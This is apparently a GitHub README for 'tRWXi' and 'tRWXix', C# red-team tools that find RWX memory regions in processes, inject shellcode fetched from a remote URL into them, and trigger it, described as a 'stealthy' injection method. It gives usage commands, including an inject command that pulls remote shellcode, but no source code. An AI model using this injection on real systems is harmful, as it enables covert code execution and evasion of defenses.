

# tRWXi

trovent RWX injector

### Description
We are all familiar with the concept of process injection through the RWX memory region.\
The **tRWXi.exe** tool is a simple implementation of this in C#.

For a more stealthy mode, see the implementation of the **tRWXix.exe** tool described below. 

### Usage
```
.\tRWXi.exe /enumerate                                          ---> conduct an enumeration
.\tRWXi.exe /inject  /pid=<pid> /url=<remote shell code>        ---> inject a shellcode into the RWX region of a particular process
.\tRWXi.exe /trigger /pid=<pid> /address=<hex address>          ---> trigger an execution of a shellcode in particular memory address (see description of tRWXix.exe)
```

### Example
- Enumerate the RWX memory regions in all processes that the current user can access:

- Inject a shellcode into the RWX region of a particular process and trigger it:

- Generate a shellcode in a numeric format (msfvenom -f num):


# tRWXix

An utility for triggering a shellcode in a RWX region

### Description
Imagine, you have found a way to overwrite an ExecuteReadWrite memory region of a particular process, and now all you need to do is trigger it. This utility does exactly this. 

Please refer to our blog article <link follows> where we describe how to modify RWX regions if the first part is still confusing for you.  

### Usage
```
.\tRWXix.exe /trigger /pid=<pid> /address=<hex address>
```

### Example
- Trigger an execution of a shellcode from the particular RWX memory region:

